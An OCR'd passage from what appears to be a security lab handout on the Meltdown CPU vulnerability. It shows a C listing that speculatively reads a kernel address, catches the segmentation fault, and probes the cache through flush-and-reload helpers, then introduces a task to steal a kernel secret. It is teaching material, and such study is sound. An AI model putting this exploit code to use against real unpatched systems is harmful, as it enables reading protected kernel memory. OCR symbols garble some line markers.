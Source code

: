 be cached by CPU. We use the side-channel code implemented in Tasks 1 and 2 to check whether we can
observe the effect. Please download the code from the lab website, run it and describe your observations. In
particular, please provide an evidence to show that Line¡is actually executed.

Listing 5:MeltdownExperiment.c
void meltdown(unsigned long kernel_data_addr)


{
char kernel_data = 0;

// The following statement will cause an exception
kernel_data = *(char*)kernel_data_addr; ¿
array[7 * 4096 + DELTA] += 1; ¡
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
// Register a signal handler
signal(SIGSEGV, catch_segv);

```
// FLUSH the probing array
flushSideChannel();
```
```
if (sigsetjmp(jbuf, 1) == 0) {
meltdown(0xfb61b000); ¬
}
else {
printf("Memory access violation!\n");
}
```
// RELOAD the probing array
reloadSideChannel();
return 0;
}

It should be noted that the address in Line¬should be replaced by the actual address that you found
from the kernel module. Compile and run the code (see Section 2 for the instructions on the compilation).
Document and explain your observations.

## 6 Task 7: The Basic Meltdown Attack

The out-of-order execution creates an opportunity for us to read data from the kernel memory, and then use
the data to conduct operations that can cause observable effects on the CPU cache. How far a CPU can go in
the out-of-order execution depends on how slow the access check, which is done in parallel, is performed.
This is a typical race condition situation. In this task, we will exploit this race condition to steal a secret
from the kernel.
